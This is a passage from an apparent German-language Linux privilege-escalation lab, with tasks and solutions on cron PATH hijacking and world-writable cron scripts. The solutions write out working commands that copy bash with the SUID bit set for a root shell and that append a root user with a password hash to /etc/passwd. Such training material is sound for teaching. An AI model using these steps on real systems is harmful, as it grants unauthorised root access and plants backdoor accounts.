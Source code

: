 Etwas weiter unten ist der Job `backup_root.sh` definiert. Wie wir sehen ist der Aufruf nicht mit vollqualifiziertem Pfad.

Wenn wir wissen wollen, wo backup_root.sh liegt, können wir das mit dem `find` Befehl herausfinden.

```
find / -name backup_root.sh 2>/dev/null
/bin/backup_root.sh
```

#### Aufgabe
Wenn wir ein Skript mit gleichem Namen in einem Verzeichnis hätten, welches vor `/bin` durchsucht wird, dann würde diese Datei ausgeführt, anstatt der Datei `/bin/backup_root.sh`. Und dieses Skript würde dann machen, was wir wollen.

Hätte, würde, könnte.. Mach es!

#### Lösung
In der Pfad-Variable in der crontab steht als erstes das Verzeichnis `/scripts`. Dieses Verzeichnis ist zu unserem Glück für alle schreibbar. Das bedeudet, wir können dort ein Skript `backup_root.sh` ablegen und es wird von Cron ausgeführt, anstelle jenem im `/bin`-Verzeichnis.

Wir nutzen dafür das vorhin kennengelernte SUID Bit aus.
Dafür kopieren wir uns im Backup-Script die bash an eine andere Stelle und setzen das SUID Bit.

```
echo 'cp /bin/bash /scripts/bash; chmod +s /scripts/bash' > /scripts/backup_root.sh
```

Wenn wir die kopierte bash mit dem Argument "-p" starten, behält sie ihre Privilegien und wir haben eine root-Shell.

Alternativ können wir uns in der `/scripts/backup_root.sh` auch einen User mit root Rechten anlegen lassen.

```
#!/bin/sh
JANE='jane:\$1\$iteratec\$45qXWta7eRNhUghQ4Uu8q/:0:0:root:/root:/bin/bash'
sed -n "\|$JANE|q;\$a $JANE" /etc/passwd >> /etc/passwd
```

### Schwache Datei-Berechtigungen
Mit `cat /etc/crontab` sehen wir in der Cron Tabelle u.a. das Skript backup_home.sh. Wir können uns mit `ls -la` die Berechtigungen dieses Skripts ansehen:

```
-rwxr-xrwx 1 root root 61 Nov 14 10:43 /etc/backup_home.sh
```

Wir sehen, dass jeder User diese Datei bearbeiten kann. Das ist schlecht. Also gut. Gut für uns!

#### Aufgabe
Dass wir das Skript bearbeiten können sollten wir ausnutzen.
Ändere das Skript so um, dass es tut was du willst - mit root-Rechten!

#### Lösung
Wir können uns hier wieder die bash kopieren, mit SUID-Bit ausstatten und mit dem Argument `-p` ausführen, oder alernativ wieder einen neuen User mit root Rechten in der `/etc/passwd` Datei anlegen.
